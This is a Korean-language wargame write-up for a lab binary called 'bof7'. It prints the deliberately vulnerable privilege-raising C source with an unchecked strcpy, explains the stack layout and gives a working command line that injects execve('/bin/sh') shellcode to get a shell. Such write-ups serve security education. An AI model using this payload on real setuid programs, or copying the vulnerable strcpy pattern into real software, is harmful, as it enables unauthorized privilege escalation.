

# bof7 정리

## bof7.c
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#define BUF_SIZE 128
#define R "\033[31m"
#define E "\033[0m"

// ASLR OFF
// STACK-PROTECTOR OFF
// STACK-EXECUTION ON

void vuln(char * arg){
    char buf[BUF_SIZE];

    if (setreuid(1007, 1007)) {
        perror("setuid");
        exit(1);
    }
    if (setregid(1007, 1007)) {
        perror("setgid");
        exit(1);
    }

    strcpy(buf, arg);
    printf("Hello %s[%p]!\n", buf, buf);
}

int main(int c, char *v[]) {
    if (c < 2) {
        fputs(R "error :( this program needs some arguments\n" E, stderr);
        return 1;
    }
    vuln(v[1]);
    return 0;
}
```

위 코드를 보면 `strcpy` 함수가 취약하니 해당 함수를 공략해야하는 것을 알 수 있다.

<br>

---

## 공격 방법

`buf` 변수에 Shell Code와 Dummy 값을 넣어 Return Address 전까지 채우고, Return Address에는 `buf`의 주소를 입력한다. 간단한 Ret-sled 공격 방법을 사용한다.

  
| `buf` | `SFP` | `RET` | 총 바이트 |
| :--: | :--: | :--: | :--: |
|ShellCode+Dummy | Dummy |buf Address | 27+109+8 = 144
<br>
---

## 방법



`./bof7`을 실행해 보니 인자 길이에 따라 `buf`의 주소가 달라지는 것을 알 수 있다.

<br>


우리는 `buf`에 넣어야 할 길이의를 알고 있다. 그 값을 넣었을 때 `buf` 주소를 확인한다.

<br>


페이로드에 따라 명령어를 작성하면 다음과 같이 된다.
```shell
$ ./bof7 `python -c 'print "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05" + "a"*109 + "\xb0\xea\xff\xff\xff\x7f"'`
```

위 명령어를 실행하면 위 사진과 같이 Shell을 따올 수 있음을 확인할 수 있다.
